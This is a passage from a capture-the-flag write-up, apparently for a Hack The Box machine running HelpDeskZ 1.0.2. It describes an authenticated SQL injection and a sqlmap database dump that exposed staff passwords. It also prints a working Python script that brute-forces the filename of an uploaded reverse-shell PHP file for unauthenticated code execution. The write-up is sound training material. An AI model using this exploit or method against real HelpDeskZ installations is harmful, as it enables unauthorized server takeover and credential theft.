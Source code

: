 <img width="1308" height="360" alt="08 - got it" src="https://github.com/user-attachments/assets/63ebb058-0e40-4dcb-90a2-796393479ad0" />

Then cracked the password.

<img width="1330" height="493" alt="09 - cracked" src="https://github.com/user-attachments/assets/63a9108d-0e50-4681-a91f-7243049b9668" />

## Exploitation
### 1st Way SQL Injection
This version of HelpDeskZ was vulnerable to authenticated SQL injection. There was an [exploit-db exploit](https://www.exploit-db.com/exploits/41200) but it was not working and it was old. So I red it to understand how exploit works and tested it myself.

<img width="1529" height="620" alt="12 - sqli" src="https://github.com/user-attachments/assets/40e4add1-f292-42b1-b028-3d3a6a0ebf71" />

Then I created an sqlmap command and dumped the whole database. The staff table included Administrator and its password. 

<img width="1562" height="114" alt="13 - sqlmap" src="https://github.com/user-attachments/assets/98a1cd2b-86a6-4125-8ed6-445e9d436eaf" />

Then I tried some usernames such as Administrator, admin, helpme, support, help and help worked. I logged in and got the user flag.

<img width="1034" height="565" alt="14 - user" src="https://github.com/user-attachments/assets/68a98e7e-887c-4bb7-a0bf-cf4785d44ef1" />

### 2nd Way Unauthenticated RCE
After some researched, I found out the RCE was not working because I was not in the same time zone as the target machine. Later I found out [this](https://github.com/JubJubMcGrub/HelpDeskZ-1.0.2-File-Uplaod) repo. And updated the code as below:

```python
import hashlib
import time, calendar
import sys
import requests

print 'HelpDesk v1.0.2 - Unauthenticated shell upload'

if len(sys.argv) < 3:
    print "Usage: {} http://helpdeskz.com/support/uploads/tickets/ Reverse-shell.php".format(sys.argv[0])
    sys.exit(1)


helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

#Getting the Time from the server
response = requests.head('http://help.htb/support/')
serverTime = response.headers['Date']
#setting the time in Epoch
FormatTime = '%a, %d %b %Y %H:%M:%S %Z'
currentTime = int(calendar.timegm(time.strptime(serverTime, FormatTime)))


for x in range(0,20*60):
    plaintext = fileName + str(currentTime -x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl + md5hash + '.php'
    response = requests.head(url)
    if response.status_code == 200:
        print("found!")
        print(url)
```